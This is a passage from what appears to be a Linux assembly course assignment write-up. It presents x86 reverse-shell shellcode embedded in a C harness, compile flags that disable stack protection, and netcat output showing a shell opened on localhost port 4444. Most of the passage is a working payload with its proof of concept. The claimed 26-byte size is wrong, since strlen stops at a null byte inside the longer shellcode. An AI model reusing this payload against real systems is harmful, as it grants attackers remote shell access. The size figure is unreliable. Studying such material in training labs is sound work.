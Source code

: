 A C program scripted with the newly generated shellcode:

```c
/**
* Filename: reverseshell_shellcode.c
* Author: h3ll0clar1c3
* Purpose: Reverse shell connecting back to IP address 127.0.0.1 on TCP port 4444  
* Compilation: gcc -fno-stack-protector -z execstack -m32 reverseshell_shellcode.c -o reverseshell  
* Usage: ./reverseshell
* Testing: nc -lv 4444
* Shellcode size: 26 bytes
* Architecture: x86
**/

#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68"
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{
        printf("Shellcode length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

As a POC, the C program is compiled as an executable binary with stack-protection disabled, and executed resulting in a shellcode size of 26 bytes:

```bash
osboxes@osboxes:~/Downloads/SLAE$ gcc -fno-stack-protector -zexecstack reverseshell_shellcode.c -o reverseshell
osboxes@osboxes:~/Downloads/SLAE$ ./reverseshell 
Shellcode length:  26

```

A separate terminal demonstrating a successful reverse connection and shell on the local host (via port 4444):

```bash
osboxes@osboxes:~$ nc -lv 4444
Connection from 127.0.0.1 port 4444 [tcp/*] accepted
id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
```


[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment6
[execve-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-811.php
[reversetcp-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-849.php